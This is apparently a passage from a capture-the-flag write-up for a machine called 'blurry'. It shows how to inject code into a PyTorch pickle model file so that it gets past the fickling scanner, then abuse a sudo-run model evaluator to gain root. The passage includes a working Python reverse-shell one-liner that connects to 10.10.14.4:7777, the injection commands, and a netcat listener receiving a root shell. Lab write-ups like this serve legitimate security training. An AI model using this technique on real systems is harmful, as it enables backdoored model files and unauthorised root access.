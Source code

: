 ```bash
smaller_cifar_net/data/5
smaller_cifar_net/data/2
smaller_cifar_net/data/7
smaller_cifar_net/version
smaller_cifar_net/byteorder
smaller_cifar_net/data.pkl
jippity@blurry:~$ mv fickling_test.pth /models
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/fickling_test.pth 
[!] Model /models/fickling_test.pth contains OVERTLY_MALICIOUS components and will be deleted.
```

To save some writing the only method for executing code that works here is runpy, all the others end up being flagged within fickling. Run the exploit define the execution method then add the code. I tested with printing something as with all of my initial paylaods.

```bash
jippity@blurry:~$ python3 pickle_inject.py inject_test.pth runpy "print('hello')"
jippity@blurry:~$ mv inject_test.pth /models
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/inject_test.pth 
[+] Model /models/inject_test.pth is considered safe. Processing...
hello
[+] Loaded Model.
[+] Dataloader ready. Evaluating model...
[+] Accuracy of the model on the test dataset: 50.00%
```

And there it is our code execution through runpy. Now runpy if you look at the documentation can import modules and run them. From this I can import a module with a reverse shell and get root. Be sure the module is within the same directory as the model being tested (or by default here /models).

```python
# shell.py

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```bash
jippity@blurry:~$ python3 pickle_inject.py runpy_module_run.pth runpy "import runpy;runpy.run_module(mod_name='shell')"
jippity@blurry:~$ cp runpy_module_run.pth /models/
jippity@blurry:~$ cp shell.py /models/
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/runpy_module_run.pth 
[+] Model /models/runpy_module_run.pth is considered safe. Processing...
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.19 37450
# whoami
root
```
